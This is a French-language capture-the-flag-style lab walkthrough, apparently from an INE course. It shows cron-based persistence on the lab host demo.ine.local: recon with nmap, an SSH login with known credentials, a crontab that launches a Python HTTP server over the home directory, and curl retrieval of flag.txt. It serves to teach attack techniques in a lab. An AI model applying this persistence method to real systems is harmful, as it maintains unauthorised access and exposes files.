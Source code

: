 ### Scénario de Lab INE
Ce cas pratique montre l'utilisation des cron jobs pour maintenir l'accès à un système via un serveur HTTP Python.

#### Étape 1 : Reconnaissance
```bash
# Vérifier la connectivité
ping -c 4 demo.ine.local

# Scanner les ports ouverts
nmap demo.ine.local
```

#### Étape 2 : Accès Initial
```bash
# Connexion SSH avec identifiants connus
ssh student@demo.ine.local
# Mot de passe: password
```

#### Étape 3 : Vérification des Services
```bash
# Vérifier les processus en cours (notamment cron)
ps -eaf | grep cron
```

#### Étape 4 : Création de la Persistance HTTP
```bash
# Créer un cron job pour servir les fichiers via HTTP
echo "* * * * * cd /home/student/ && python -m SimpleHTTPServer" > cron

# Installer la crontab
crontab -i cron

# Vérifier l'installation
crontab -l
```

#### Étape 5 : Test de la Persistance
```bash
# Se déconnecter puis se reconnecter
exit
ssh student@demo.ine.local

# Supprimer le fichier de contrôle
rm wait

# La session SSH se termine mais le serveur HTTP continue
```

#### Étape 6 : Vérification de la Persistance
```bash
# Scanner pour vérifier que le port 8000 est ouvert
nmap -p- demo.ine.local

# Accéder au serveur HTTP
curl demo.ine.local:8000
curl demo.ine.local:8000/flag.txt
```
